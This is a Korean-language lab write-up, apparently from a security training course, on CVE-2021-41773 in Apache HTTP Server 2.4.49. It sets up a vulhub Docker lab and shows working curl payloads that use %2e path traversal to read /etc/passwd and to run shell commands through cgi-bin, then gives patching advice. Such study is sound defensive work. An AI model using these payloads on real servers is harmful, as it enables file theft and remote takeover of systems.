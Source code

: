 # CVE-2021-41773 | Apache HTTP Server 2.4.49 Path Traversal 취약점

> 화이트햇 스쿨 3기 (20반) - [김혜지 (@hyeroro)](https://github.com/hyeroro)

<br/>

## 취약점 개요

- **CVE ID**: CVE-2021-41773
- **취약점 유형**: Path Traversal(경로 탐색)
- **CVSS 점수**: 7.5 (High)
- **영향 받는 버전**: Apache HTTP Server 2.4.49
- **발견 날짜**: 2021년 10월 4일
- **패치 버전**: Apache HTTP Server 2.4.50 또는 이후 버전

이 취약점은 Apache HTTP Server 2.4.49에서 경로 정규화가 제대로 처리되지 않아 발생합니다. 공격자는 URL 경로 탐색 시퀀스를 사용하여 웹 루트 디렉토리 외부의 파일에 접근하거나 CGI 스크립트를 통해 명령을 실행할 수 있습니다.

<br/>

## 환경 구성
### 사용한 도구
- OS: Ubuntu 20.04 LTS
- Docker 버전: 28.0.1
- Docker Compose 버전: v2.33.1-desktop.1

### 명령어
```sh
# vulhub 저장소 클론
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2021-41773

# Docker 컨테이너 실행
docker-compose up -d
```
![setting](./images/setting.png)

<br/>

## PoC 및 결과

### 취약점 원인
Apache HTTP Server 2.4.49에서는 URL 경로 정규화 과정에서 결함이 있어 %2e (URL 인코딩된 점)을 사용한 디렉토리 탐색이 제대로 차단되지 않습니다. 이로 인해 공격자는 서버의 파일 시스템에 있는 임의의 파일에 접근할 수 있습니다.

### 경로 탐색 (Path Traversal) 테스트
/etc/passwd 파일 접근
```bash
curl -v —path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
![PathTraversal2](./images/PathTraversalTest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```
![PathTraversal](./images/PathTraversalTest.png)


### 원격 코드 실행 (RCE) 테스트
```bash
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```
![RCEtest](./images/RCEtest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```
![RCEtest](./images/RCEtest.png)

<br/>

## 결론
  본 분석을 통해 Apache HTTP Server 2.4.49 버전에서 발생하는 CVE-2021-41773 취약점이 심각한 보안 위협임을 확인했습니다. 이 취약점은 경로 정규화 과정의 결함으로 인해 공격자가 URL 인코딩된 .(%2e) 문자를 사용하여 웹 루트 디렉토리 외부의 파일에 접근할 수 있도록 허용합니다.
  실제로 /etc/passwd와 같은 시스템 파일을 읽는 경로 탐색(Path Traversal) 공격이 성공함을 PoC를 통해 확인하였으며, 특히 CGI 스크립트가 활성화된 환경에서는 /bin/sh와 같은 쉘 실행 파일을 통해 임의의 시스템 명령어를 실행할 수 있는 원격 코드 실행(RCE)으로 이어질 수 있음을 입증했습니다. 이는 공격자가 서버의 민감한 정보에 접근하거나 시스템을 완전히 장악할 수 있음을 의미하며, 그 위험성이 매우 높습니다.
  따라서 Apache HTTP Server 2.4.49 버전을 운영 중인 관리자는 즉시 취약점이 해결된 Apache HTTP Server 2.4.50 또는 이후 버전으로 업데이트하는 것이 필수적입니다. 신속한 패치는 해당 취약점을 이용한 공격 시도를 차단하고 시스템의 보안을 강화하는 가장 효과적인 방법입니다. 또한, 웹 서버 설정에서 불필요한 CGI 실행 권한을 제한하고, 중요한 시스템 파일에 대한 접근 제어를 강화하는 등의 추가적인 보안 조치를 고려해야 합니다.
